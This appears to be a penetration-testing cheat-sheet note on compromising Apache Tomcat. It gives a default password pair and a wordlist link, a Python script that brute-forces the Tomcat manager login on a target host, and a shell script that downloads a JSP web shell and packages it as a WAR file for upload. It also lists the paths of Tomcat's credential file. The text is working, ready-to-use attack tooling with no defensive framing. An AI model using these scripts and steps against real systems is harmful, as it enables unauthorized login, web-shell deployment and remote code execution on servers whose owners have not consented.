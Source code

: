 #### Login
Try `tomcat : s3cret`
If not successful, try this list:
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```python - kali
#!/usr/bin/env python
import sys
import requests
with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://$TARGET:8080/manager/html', auth=(c[0], c[1]))
        if r.status_code == 200:
            print "Found valid credentials \"" + line.strip('\n') + "\""
            raise sys.exit()
```
#### Malicious war upload
[[0._Reverse shells (WEB)#jar war]]
OR
```bash - kali
#!/bin/sh
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf wshell
rm -f wshell.war
mkdir wshell
cp index.jsp wshell/
cd wshell
jar -cvf ../wshell.war *
```
![[1._rlwrap]]
#### Configuration file
`/opt/tomcat/conf/tomcat-users.xml'
`/usr/share/tomcat9/conf/tomcat-users.xml`
